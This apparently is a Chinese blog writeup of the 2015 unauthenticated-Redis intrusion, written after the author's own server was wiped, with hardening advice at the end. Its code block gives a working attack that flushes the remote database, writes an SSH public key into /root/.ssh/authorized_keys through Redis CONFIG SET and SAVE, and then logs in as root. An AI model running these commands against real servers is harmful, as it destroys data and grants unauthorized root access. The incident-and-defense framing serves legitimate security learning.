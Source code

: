 **redis-exec 漏洞 **

**缘来**

某日发现阿里云上面的机器上面redis库相关数据获取不到，登陆后
发现之前所有key已经清除干净。查询所有redis相关文档，问题还是
找不到原因。最后在查看系统 所有keys时发现了crackit。这才恍然
意识到可能被黑了。。

查询相关新闻发现2015年11月10日中午12点左右，发现不知名团体利用redis世界缺陷针对全球互联网的全网性入侵事件，结果将导致：redis数据丢失，服务器的ssh公钥被替换.


**问题重现**

```bash

## 生成ssh  key
ssh-keygen -t rsa -C "root@redis.io"


## 生成 pub key 文件
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt


## 刷新远程 ip  redis
redis-cli -h ip  flushall

## 设置远程 redis key crackit  
cat foo.txt | redis-cli -h ip  -x set crackit



### 远程登陆，设置 /root/.ssh/authorized_keys
$ redis-cli -h ip
ip:6379> config set dir /root/.ssh/
OK
ip:6379> config get dir
1) "dir"
2) "/root/.ssh"
ip:6379> config set dbfilename "authorized_keys"
OK
ip:6379> save
OK

### 远程登陆
ssh -i id_rsa root@ip

```

*************

**注意**

>> 上面redis 必须是root用户，才可成功，如果不是那么尝试
用户，这个就稍麻烦些


**防范**

>>  修改 redis 配置文件 bind 127.0.0.1，这样只能本地访问

>> 修改 redis 默认访问端口 6379, 很多端口扫描就是针对的
这些常用的端口。

>> 修改 requirepass ，增加密码访问

>> 修改redis 运行权限 。


*******

**参考**


[redis-exec](https://packetstormsecurity.com/files/134200/redis-exec.txt)
